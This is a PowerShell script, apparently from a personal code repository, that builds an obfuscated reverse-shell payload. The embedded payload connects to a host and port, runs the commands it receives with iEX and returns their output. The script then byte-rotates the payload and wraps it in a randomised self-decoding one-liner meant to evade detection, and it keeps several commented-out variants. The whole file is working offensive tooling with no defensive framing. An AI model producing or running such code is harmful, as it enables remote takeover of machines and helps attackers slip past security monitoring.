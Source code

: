 ## Powrshell obfusquer le payload

#reverseshell
$rs = '
$c=nEw-OBJeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT 127.0.0.1),10443);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()
'
#to bytes
[byte[]] $scriptBytes = [system.Text.Encoding]::UTF8.GetBytes($rs)

#byte rotation
$rot = Get-Random -Maximum 254 -Minimum 5
$derot = 255 - $rot
$rotbytes = [system.Text.Encoding]::UTF8.GetBytes('')
$scriptBytes | %{ $rotbytes += ($_ + $rot)%255}


#payload in byte without rotation here:
#$output = ""
#$scriptBytes |% {$output += $_.tostring()+ ","}
#$output = $output -replace ".$"
#$output =  "[sYsTeM.TeXT.eNcOdInG]::asCii.gEtsTRiNG(`$([bYtE]" + $output + "))|IEx"
#write-host $output

#payload in byte WITH rotation:
$output = ""
$rotBytes |% {$output += $_.tostring()+ ","}
$output = $output -replace ".$"

$rand1 = Get-Random -Maximum 254 -Minimum 5 ; $rand2 = Get-Random -Maximum 254 -Minimum 5 ; $rand3 = Get-Random -Maximum 254 -Minimum 5

#$output =  "`$([bYtE]" + $output + ")" #objet de type byte
#$output =  "`$d;`$([bYtE]" + $output + ")|%{ `$d+=(`$_ + $rot)%255};`$d" #payload déchiffré
#$output =  "`$255=[system.Text.Encoding]::UTF8.GetBytes('');[sYsTeM.TeXT.eNcOdInG]::asCii.gEtsTRiNG(`$(`$([bYtE]" + $output + ")|%{`$255+=(`$_+$derot)%255};`$255))|iEx"
#$output =  "`$0=255;`$133=[sYsTeM.TeXT.eNcOdInG];`$255=`$133::utF8.gEtbYtES('');`$133::asCii.gEtsTRiNG(`$(`$([bYtE]" + $output + ")|%{`$255+=(`$_+(255+$derot-255))%`$0};`$255))|iEx"
#$output =  "`$0=255;`$133=[sYsTeM.TeXT.eNcOdInG];[BytE[]]`$255='';`$133::asCii.gEtsTRiNG(`$(`$([bYtE]" + $output + ")|%{`$255+=(`$_+(255+$derot-255))%`$0};`$255))|iEx" #erreur non bloquante à ;[BytE[]]`$255=''
$output =  "`$$rand2=255;`$$rand1=[sYsTeM.TeXT.eNcOdInG];[BytE[]]`$$rand3='';`$$rand1::asCii.gEtsTRiNG(`$(([bYtE]" + $output + ")|%{`$$rand3+=(`$_+(`$$rand2+$derot))%`$$rand2};`$$rand3))|iEx"

write-host $output


